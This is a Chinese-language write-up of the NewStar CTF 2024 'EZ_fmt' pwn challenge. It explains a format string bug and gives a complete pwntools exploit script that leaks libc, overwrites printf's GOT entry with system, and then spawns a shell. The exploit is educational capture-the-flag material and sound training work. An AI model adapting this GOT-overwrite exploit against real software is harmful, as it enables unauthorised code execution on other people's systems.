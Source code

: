 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# EZ_fmt

查看 `vuln` 函数

![vuln 函数](/assets/images/wp/2024/week2/ez-fmt_1.png)

很经典的格式化字符串，首先确定 offset 为 `8`

![确定偏移](/assets/images/wp/2024/week2/ez-fmt_2.png)

根据程序，我们有三次格式化字符串的机会

- 第一次泄露 libc
- 第二次改 `printf` GOT 表地址为 `system`
- 第三次输入为 `sh`，构造出 `printf(buf)=system(sh)` 即可

EXP 如下

```python
from pwn import *
from ctypes import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

libc = ELF('./libc.so.6')
elf = ELF('./chal')
flag = 0
if flag:
    p = remote('ip', port)
else:
    p = process("./")


def sa(s, n): return p.sendafter(s, n)
def sla(s, n): return p.sendlineafter(s, n)
def sl(s): return p.sendline(s)
def sd(s): return p.send(s)
def rc(n): return p.recv(n)
def ru(s): return p.recvuntil(s)
def ti(): return p.interactive()


def leak(name, addr): return log.success(name+"--->"+hex(addr))


sla(b': \n', b'%19$p')
ru(b'0x')
libc.address = int(rc(12), 16) - 0x29d90
leak("libc", libc.address)

low = libc.sym['system'] & 0xff
high = (libc.sym['system'] >> 8) & 0xffff
payload = b'%' + str(low).encode() + b'c%12$hhn'
payload += b'%' + str(high - low).encode() + b'c%13$hn'
payload = payload.ljust(0x20, b'a')
payload += p64(elf.got['printf']) + p64(elf.got['printf']+1)


sa(b': \n', payload)

sla(b': \n', b'  sh;')
# gdb.attach(p)
p.interactive()
```
